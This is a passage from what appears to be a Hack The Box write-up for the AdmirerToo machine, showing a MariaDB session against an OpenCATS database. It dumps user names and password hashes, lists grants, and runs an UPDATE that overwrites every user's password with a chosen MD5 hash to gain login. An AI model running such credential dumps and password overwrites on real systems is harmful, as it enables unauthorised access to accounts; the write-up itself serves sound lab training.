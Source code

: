 ```bash
| xml_feeds                            |
| zipcodes                             |
+--------------------------------------+
55 rows in set (0.001 sec)

MariaDB [cats_dev]> select user_name,password from user;
+----------------+----------------------------------+
| user_name      | password                         |
+----------------+----------------------------------+
| admin          | dfa2a420a4e48de6fe481c90e295fe97 |
| cats@rootadmin | cantlogin                        |
| jennifer       | f59f297aa82171cc860d76c390ce7f3e |
+----------------+----------------------------------+
3 rows in set (0.000 sec)
```

Enumerated user privileges ni MySQL:

```json
MariaDB [cats_dev]> show grants;
+-------------------------------------------------------------------------------------------------------------+
| Grants for cats@localhost                                                                                   |
+-------------------------------------------------------------------------------------------------------------+
| GRANT USAGE ON *.* TO `cats`@`localhost` IDENTIFIED BY PASSWORD '*6DB7C7C159FC2393785B54064E70FDB137F445B9' |
| GRANT ALL PRIVILEGES ON `cats_dev`.* TO `cats`@`localhost`                                                  |
+-------------------------------------------------------------------------------------------------------------+
2 rows in set (0.000 sec)
```

Updated every password (cracking hashes was not working):

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/B2R/AdmirerToo]
└─$ echo -n maoutis | md5sum
6f2ae4978075eae54f9491744818d28d  -
```

```bash
MariaDB [cats_dev]> update user set password="6f2ae4978075eae54f9491744818d28d";
```

Logged in to opencats using self injected credentials:
